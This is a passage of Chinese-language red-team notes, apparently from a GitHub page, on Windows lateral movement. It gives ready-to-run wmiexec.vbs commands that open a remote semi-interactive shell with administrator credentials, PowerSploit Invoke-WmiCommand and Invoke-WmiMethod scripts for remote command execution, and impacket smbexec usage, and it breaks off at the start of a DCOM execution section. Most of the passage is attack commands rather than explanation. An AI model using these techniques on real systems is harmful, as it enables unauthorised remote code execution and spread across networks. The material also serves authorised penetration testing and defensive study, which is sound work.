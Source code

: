   获取远程目标主机半交互式 shell：

  ```cmd
  cscript.exe //nologo wmiexec.vbs /shell 192.168.1.3 administrator HACK@2020
  ```
  执行单条命令：
  ```cmd
  cscript.exe //nologo wmiexec.vbs /cmd 192.168.1.3 administrator HACK@2020 "ipconfig"
  ```

- Invoke-WmiCommand

  - PowerSploit\CodeExecution\Invoke-WmiCommand.ps1
  - Windows 从 Windows Server 2008 和 Win 7 版本开始内置 Poweshell

  ```powershell
  Import-Module Invoke-WmiCommand.ps1
  $User = "HACK\Administrator"
  $Password = ConvertTo-SecureString -String "HACK@2020" -AsPlainText-Force
  $Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password
  $Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName 192.168.1.1
  $Remote.PayloadOutput
  ```

- Invoke-WmiMethod
  利用 Powershell 自带的 Invoke-WmiMethod 在远程系统中执行系统命令和运行指定程序。
  ```powershell
  $User = "HACK\Administrator"
  $Password = ConvertTo-SecureString -String "HACK@2020" -AsPlainText-Force
  $Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password
  Invoke-WmiMethod -Class Win32_Process -Name Create -ArguementList "calc.exe" -ComputerName "192.168.1.1" -Credential $Cred
  ```

## smbexec

smbexec 可以通过文件共享（ipc$、admin$、c$、d$）在远程系统中执行命令。

- impacket/smbexec.exe

  ```cmd
  smbexec.exe [[domain/]username[:password]@]<targetName or address>
  ```

## DCOM 

DCOM（分布式组件对象模型）是一系列微软的概念和程序接口，利用这个接口，客户端程序对象能够请求来自网络中另一台计算机上的服务器程序对象。

DCOM 基于组件对象模型（COM），COM 提供了一套允许同一台计算机上的客户端和服务器之间进行通信的接口（运行在 Windows95 或者其后的版本上）。

**通过本地 DCOM 执行命令：**

1. 获取本地 DCOM 程序列表
  Powershell 3.0+ (Windows Server 2012 +)：
  ```powershell
  Get-CimInstance Win32_DCOMApplication
  ```